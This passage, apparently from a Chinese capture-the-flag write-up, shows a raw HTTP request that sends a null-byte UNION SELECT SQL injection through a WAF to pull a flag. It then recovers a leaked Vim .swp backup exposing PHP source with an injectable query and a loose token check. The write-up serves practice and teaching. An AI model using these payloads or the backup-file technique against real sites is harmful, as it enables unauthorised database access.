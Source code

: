 ```
POST /waf/content.php HTTP/1.1
Host: 202.0.0.37
Connection: close
Content-Type: multipart/form-data; boundary=--------1490982421
Content-Length: 139

----------1490982421
Content-Disposition: form-data; name="message_id"

"%00" union select 1,2,flag,4 from flag
----------1490982421--
```

## 忘记密码了

题目一开始只有一个文本框，要求填入email，随便填一个后有alert提示前往`/forget/step2.php?email=youremail@address.com&check=?????`进行下一步

发现网页源代码中有重要信息：

```html
	<meta name="admin" content="admin@simplexue.com" />
	<meta name="editor" content="Vim" />
```

并且`step2.php`中含有一个提交到`submit.php`的表单，有`emailAddress`字段和`token`字段

看到Vim可以想到Vim编辑器在非正常退出的情况下会留下`.swp`文件，经过逐个测试发现了`submit.php`的源码

http://202.0.0.37/forget/.submit.php.swp

```php
........这一行是省略的代码........

/*
如果登录邮箱地址不是管理员则 die()
数据库结构

--
-- 表的结构 `user`
--

CREATE TABLE IF NOT EXISTS `user` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `email` varchar(255) NOT NULL,
  `token` int(255) NOT NULL DEFAULT '0',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;

--
-- 转存表中的数据 `user`
--

INSERT INTO `user` (`id`, `username`, `email`, `token`) VALUES
(1, '****不可见***', '***不可见***', 0);
*/


........这一行是省略的代码........

if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
```